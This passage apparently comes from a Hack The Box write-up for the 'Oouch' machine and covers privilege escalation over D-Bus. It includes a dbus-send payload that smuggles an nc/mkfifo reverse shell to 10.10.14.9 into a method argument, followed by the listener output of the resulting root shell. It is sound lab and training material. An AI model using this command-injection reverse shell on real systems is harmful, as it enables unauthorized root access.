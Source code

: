 Now time for dbus exploitation.

### D-Bus Exploitation

[http://www.kaizou.org/2014/06/dbus-command-line.html](http://www.kaizou.org/2014/06/dbus-command-line.html)

[https://linux.die.net/man/1/dbus-send](https://linux.die.net/man/1/dbus-send)

After lot of enumeration and using those articles, I found a way to get reverse shell as root.

```python
$ dbus-send --system --type=method_call --print-reply --dest=htb.oouch.Block /htb/oouch/Block org.freedesktop.DBus.Introspectable.Introspect
dbus-send --system --type=method_call --print-reply --dest=htb.oouch.Block /htb/oouch/Block org.freedesktop.DBus.Introspectable.Introspect
method return time=1591687819.038208 sender=:1.3 -> destination=:1.3209 serial=10 reply_serial=2
   string "<!DOCTYPE node PUBLIC "-//freedesktop//DTD D-BUS Object Introspection 1.0//EN"
"http://www.freedesktop.org/standards/dbus/1.0/introspect.dtd">
<node>
 <interface name="org.freedesktop.DBus.Peer">
  <method name="Ping"/>
  <method name="GetMachineId">
   <arg type="s" name="machine_uuid" direction="out"/>
  </method>
 </interface>
.
.
.
 <interface name="htb.oouch.Block">
  <method name="Block">
   <arg type="s" direction="in"/>
   <arg type="s" direction="out"/>
  </method>
 </interface>
</node>
```

First We need to get the Interface name and method name. And we got them both.

Now mix them up and I got the payload.

```python
dbus-send --system --type=method_call --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1234 >/tmp/f;"
```

### Getting Root

By running the payload as `www-data` and my nc listener is started and I got shell as root.

```python
root@kali:~/CTF/HTB/Boxes/Oouch# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.177] 38992
bash: cannot set terminal process group (2717): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# whoami
whoami
root
root@oouch:/root# ls   
ls
credits.txt
dbus-server
dbus-server.c
get_pwnd.log
get_pwnd.py
root.txt
```